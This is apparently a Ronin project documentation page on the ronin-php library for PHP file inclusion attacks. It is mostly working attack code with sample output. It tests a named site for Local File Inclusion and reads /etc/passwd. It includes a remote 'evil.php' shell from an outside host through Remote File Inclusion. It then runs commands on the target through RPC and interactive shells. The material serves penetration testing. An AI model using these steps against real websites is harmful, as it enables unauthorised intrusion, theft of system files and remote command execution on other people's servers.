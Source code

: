 ```yaml
---
layout: default
title: Using Ronin PHP
---
```


# Using Ronin PHP

The [Ronin PHP](http://ronin.rubyforge.org/docs/ronin-php/) library provides
support for PHP related security tasks, such as Local File Inclusion (LFI)
or Remote File Inclusion (RFI).

Before we can use this library in the Ronin Console, we must first install
the library. To install the Ronin Web library used in this guide, simply
run the following command:

    $ sudo gem install ronin-php

To start the Ronin Console, with ronin-php pre-loaded, simply run the
`ronin-php` command:

    $ ronin-php

## Local File Inclusion (LFI)

Test a URL for LFI:

    url = URI('http://www.e-builds.com/?page=Portfolio')
    url.has_lfi?
    # => true

Obtain a [Ronin::PHP::LFI](http://ronin.rubyforge.org/docs/ronin-php/Ronin/PHP/LFI.html)
object which can be used to access files or finger-print the web server:

    lfi = url.first_lfi

Request a local file as a `String`:

    lfi.get('/etc/passwd')

Request a local file as a [Ronin::PHP::LFI::File](http://ronin.rubyforge.org/docs/ronin-php/Ronin/PHP/LFI/File.html)
object:

    lfi.include('/etc/passwd')
    # => #<Ronin::PHP::LFI::File:/etc/passwd>

## Remote File Inclusion (RFI)

Test a URL for RFI:

    url = URL('http://www.example.com/page.php?layout=default')
    url.has_rfi?
    # => true

Obtain a [Ronin::PHP::RFI](http://ronin.rubyforge.org/docs/ronin-php/Ronin/PHP/RFI.html)
object which can be used to include other PHP files:

    rfi = url.first_rfi

Including a remote PHP file:

    rfi.include('http://www.shells4you.com/evil.php')

Using the Ronin PHP Remote Procedure Call (RPC) server:

    client = rfi.rpc

Using the PHP Console service to call PHP functions:

    php = client.console

    php.phpversion
    # => "4.3.10"

    php.php_uname('-m')
    # => "i686"

Using the PHP Shell service for quick command execution:

    shell = client.shell

    shell.cwd
    # => "/var/www/site/\n"

    shell.cd '..'
    # => ""

    shell.exec('date -u')
    # => "Thu Aug 21 10:29:38 UTC 2008\n"

    shell.system('ps')
    #    PID TTY          TIME CMD
    #  27042 pts/8    00:00:00 bash
    #  27841 pts/8    00:00:00 ps
    # => nil

Using the Interactive Shell for the PHP-RPC Console service:

    php.interact
    # >> phpversion();
    # => "4.3.0"
    # >> explode('|', 'one|two|three');
    # => Array(
    #   "one",
    #   "two",
    #   "three"
    # )
    # >> exit
    # => nil

Using the Interactive Shell for the PHP-RPC Shell service:

    shell.interact
    # $ pwd
    # /var/www/site/
    # $ cd ..
    # $ ls -la
    # ...
    # $ exit
    # => nil

